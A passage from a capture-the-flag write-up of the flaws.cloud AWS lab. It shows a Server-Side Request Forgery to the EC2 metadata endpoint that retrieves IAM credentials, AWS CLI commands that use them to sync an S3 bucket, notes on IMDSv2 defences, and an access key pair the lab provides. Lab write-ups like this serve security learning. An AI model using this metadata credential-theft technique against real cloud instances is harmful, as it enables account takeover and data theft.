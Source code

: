 Essentially, this means that the server is performing requests on our behalf. An interesting thing about EC2 instances is that they usually have access to a metadata server at the address `169.254.169.254`. This is present in many cloud services, not just AWS.

By making a request to `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws`, I'm able to retrieve this EC2 instance's IAM credentials. I determined this full URL path by manually navigating through each directory, starting at `/latest/meta-data/`, and modifying the path based on the subdirectory listings the application would return. 

![JSON including aws access key, secret key, and token](../../../assets/writeups/flaws.cloud/Pasted_image_20230125174108.png)

I load those credentials into my CLI AWS configuration, and am then able to read the bucket contents of the next level.

![Me doing the aws configure workflow and showing the contents of my ~/.aws/credentials file. Then running get-caller-identity to show that I'm the compromised role](../../../assets/writeups/flaws.cloud/Pasted_image_20230125174554.png)

```text
wsl@fronkle:~/ctfs/flaws$ aws --profile flaws5 s3 sync s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud flaws6
download: s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/hint1.html to flaws6/ddcc78ff/hint1.html
download: s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/index.html to flaws6/index.html
download: s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/hint2.html to flaws6/ddcc78ff/hint2.html
download: s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/index.html to flaws6/ddcc78ff/index.html
```

This tells me what subdirectory to navigate to to access level 6.

![The next level's home page](../../../assets/writeups/flaws.cloud/Pasted_image_20230125174911.png)

### Lessons Learned

- The ability to perform a Server-Side Request Forgery (SSRF) attack as an EC2 instance can be translated to AWS API access as that EC2 instance's IAM role or user. This is most easily done by checking the `http://169.254.169.254/latest/meta-data/` endpoint and, from there, navigating to the particular instance's instance-id page. 
	- See [CloudGoat AWS Scenario Walkthrough: “EC2_SSRF” (rhinosecuritylabs.com)](https://rhinosecuritylabs.com/cloud-security/cloudgoat-aws-scenario-ec2_ssrf/) for a great demonstration of this technique.
- AWS has introduced the IMSDv2 feature, which protects against this type of attack by requiring certain header parameters to be present in requests to the meta-data endpoint. However, many AWS EC2 instances do not have this protection enabled.

## Level 6

This level directly provides me with access as a particular user. They hint that this user has a policy named "SecurityAudit" attached to it, which means I'll probably be able to use a loose permission on it to perform some sort of privilege escalation or enumeration into the next level.

```text
Access key ID: AKIAJFQ6E7BY57Q3OBGA  
Secret: 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
```

